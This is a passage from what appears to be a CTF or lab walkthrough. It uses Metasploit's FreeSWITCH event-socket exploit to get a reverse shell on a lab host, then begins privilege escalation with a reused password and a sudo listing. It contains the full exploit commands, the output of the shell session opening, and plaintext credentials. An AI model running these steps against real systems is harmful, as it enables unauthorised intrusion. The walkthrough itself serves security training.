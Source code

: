 The module automatically selects a payload for us so we'll just need to adjust the `RHOSTS`, `LHOST`, `LPORT` and `PASSWORD` options.

```
msf6 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set RHOSTS 192.168.120.155
RHOSTS => 192.168.120.155
msf6 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set LHOST 192.168.120.3
LHOST => 192.168.120.3
msf6 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set LPORT 8021
LPORT => 8021
msf6 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set PASSWORD StrongClueConEight021
PASSWORD => StrongClueConEight021
```

Now we are ready to run the module using the `exploit` command.

```
msf6 exploit(multi/misc/freeswitch_event_socket_cmd_exec) > exploit

[*] Started reverse TCP double handler on 192.168.120.3:8021
[*] 192.168.120.155:8021 - Login success
[*] 192.168.120.155:8021 - Sending payload (291 bytes) ...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo qrwRwf3qFSOr7jar;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "qrwRwf3qFSOr7jar\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.120.3:8021 -> 192.168.120.155:44512) at 2022-03-24 19:24:48

id
uid=998(freeswitch) gid=998(freeswitch) groups=998(freeswitch)
```

## Privilege Escalation

There is no clear command prompt when getting a reverse shell using _Metasploit_, so we'll use `script` command to avoid our eyes playing tricks on us.

```
which script
/usr/bin/script
script -qc /bin/bash /dev/null
freeswitch@clue:/$
```

After establishing our foothold, we'll refer back to Cassie's password we obtained during our previous arbitrary file read.

```
freeswitch@clue:/$ su - cassie
Password: SecondBiteTheApple330
cassie@clue:~$ sudo -l
Matching Defaults entries for cassie on clue:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cassie may run the following commands on clue:
    (ALL) NOPASSWD: /usr/local/bin/cassandra-web
```
